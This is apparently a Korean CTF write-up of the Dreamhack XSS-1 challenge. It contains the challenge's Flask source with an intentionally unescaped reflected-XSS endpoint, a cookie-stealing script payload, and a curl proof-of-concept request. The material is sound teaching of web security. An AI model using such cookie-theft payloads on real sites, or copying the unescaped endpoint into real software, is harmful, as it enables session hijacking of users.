 ```yaml
---
title: "[CTF] 드림핵 XSS-1"
date: 2025-09-18 18:05:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-1"
author: "송지민"
toc: true
---
```


## 문제 개요
문제는 플라스크로 구현된 간단한 웹앱이었고, 내부에서 셀레니움을 돌려서 특정 URL을 방문시키는 로직이 있었다. `/vuln`, `/memo`, `/flag` 세 페이지를 확인했을 때 취약점은 명확했다.

- `/vuln?param=...` : param 값을 검증/이스케이프 없이 그대로 출력 (반사형 XSS 가능)
- `/memo?memo=...` : 전달된 memo 값을 누적해서 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 함수로 셀레니움 봇에게 전달 (봇은 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법
문제를 보자마자 `/vuln`이 사용자 입력을 그대로 반환하는 걸 확인했고, `/flag`가 내부적으로 셀레니움으로 `/vuln?param=...` 을 호출함을 발견했다. 또한 그 셀레니움 봇은 `flag` 쿠키를 가지고 있었다(코드 `driver.add_cookie({"name": "flag", "value": FLAG.strip(), ...})`).

즉, 반사형 XSS로 `document.cookie`를 읽어 `/memo`에 전송하도록 만들면, 서버가 그 내용을 저장하므로 FLAG를 얻을 수 있다는 결론에 이르렀다.

### 내가 사용한 페이로드
```html
<script>location.href="/memo?memo="+document.cookie;</script>
```

### PoC 요청
```bash
curl -X POST -F 'param=<script>location.href="/memo?memo="+document.cookie;</script>' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열기 때문에, 페이지에서 스크립트가 실행되면 `document.cookie`는 FLAG 값을 포함하고, 스크립트는 `/memo?memo=<document.cookie>`로 리다이렉트해서 서버에 기록한다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름
1. 공격자: `POST /flag` with `param=<스크립트>`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇(헤드리스 크롬): `/vuln` 페이지에서 `<script>location.href="/memo?memo="+document.cookie;</script>` 실행  
4. 봇: `/memo?memo=flag=<FLAG>` 호출 → 서버의 `memo_text`에 FLAG 저장  
5. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나
- **반사형 XSS**: `/vuln`이 입력값에 대해 어떠한 이스케이프도 수행하지 않아 스크립트가 그대로 실행되었다.
- **봇의 쿠키 설정**: 서버가 봇에게 `flag` 쿠키를 설정했으며, 이 쿠키는 HttpOnly가 아니어서 자바스크립트로 읽을 수 있었다.
- **서버 설계 결함**: 외부에서 들어온 `param`을 검증 없이 내부 봇에 그대로 전달했다.

---

## 마무리
이 문제는 전형적인 반사형 XSS + 내부 자동화(봇)를 결합한 케이스였다. 원리는 단순하지만, 자동화된 브라우저가 민감한 값을 클라이언트 쿠키로 가지고 있다는 점이 굉장히 위험했다. 실전에서는 **민감값을 HttpOnly 쿠키에 보관**하거나 **자동화 브라우저가 외부 입력을 임의로 열지 않도록** 설계해야 한다.

---
